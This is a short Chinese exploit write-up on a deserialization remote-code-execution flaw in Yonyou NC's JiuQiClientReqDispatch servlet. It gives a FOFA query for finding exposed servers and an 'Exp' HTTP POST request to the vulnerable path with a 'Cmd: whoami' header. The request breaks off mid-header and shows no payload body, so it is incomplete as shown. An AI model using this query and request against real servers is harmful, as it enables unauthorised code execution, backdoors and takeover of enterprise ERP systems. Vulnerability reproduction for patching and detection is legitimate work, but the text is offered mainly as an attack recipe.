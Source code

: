 
# 用友 NC JiuQiClientReqDispatch 反序列化 RCE 漏洞复现

### 0x01 产品简介

 [用友](https://so.csdn.net/so/search?q=%E7%94%A8%E5%8F%8B&spm=1001.2101.3001.7020 "用友")NC 是一款企业级 ERP 软件。作为一种信息化管理工具，用友 NC 提供了一系列业务管理模块，包括财务会计、[采购管理](https://so.csdn.net/so/search?q=%E9%87%87%E8%B4%AD%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020 "采购管理")、销售管理、物料管理、生产计划和人力资源管理等，帮助企业实现数字化转型和高效管理。

### 0x02 漏洞概述

  用友 NC JiuQiClientReqDispatch 接口存在反序列化代码执行漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

### 0x03 复现环境

FOFA：app="用友-UFIDA-NC"

![4b4ae218e3ea4146b47d31168a7af2a9.png](assets/1701826123-fdc0d0beb4c158a8788a0866d7c09a1d.png)

### 0x04 漏洞复现 

Exp

```http
POST /servlet/~ic/com.ufsoft.iufo.jiuqi.JiuQiClientReqDispatch HTTP/1.1
Host: {{Hostname}}
Cmd: whoami
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML
```
